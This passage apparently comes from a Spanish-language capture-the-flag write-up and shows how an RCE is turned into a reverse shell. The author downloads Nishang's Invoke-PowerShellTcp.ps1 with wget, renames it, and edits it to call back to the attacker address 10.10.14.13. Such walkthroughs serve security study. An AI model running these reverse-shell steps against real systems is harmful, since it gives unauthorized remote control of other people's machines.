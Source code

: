 <figure><img src="../../../.gitbook/assets/999_vmware_6yEKiDJ9jp.png" alt=""><figcaption></figcaption></figure>

### Getting Reverse Shell with PowerShellTcp.ps1

Procederemos a abusar de este RCE otorgándonos una Reverse Shell. Para ello, en nuestra Kai nos descargaremos el [**PowerShellTcp.ps1**](https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1) y lo renombraremos a "PS.ps1".&#x20;

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1

mv Invoke-PowerShellTcp.ps1 PS.ps1
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1002_vmware_poF27QwpOD.png" alt=""><figcaption></figcaption></figure>

Modificaremos el script y en la última línea añadiremos la siguiente línea para que así invoque el comando para otorgarnos la Reverse Shell a nuestro equipo por el puerto especificado.

```bash
catnp PS.ps1 | grep 10.10.14.13
```
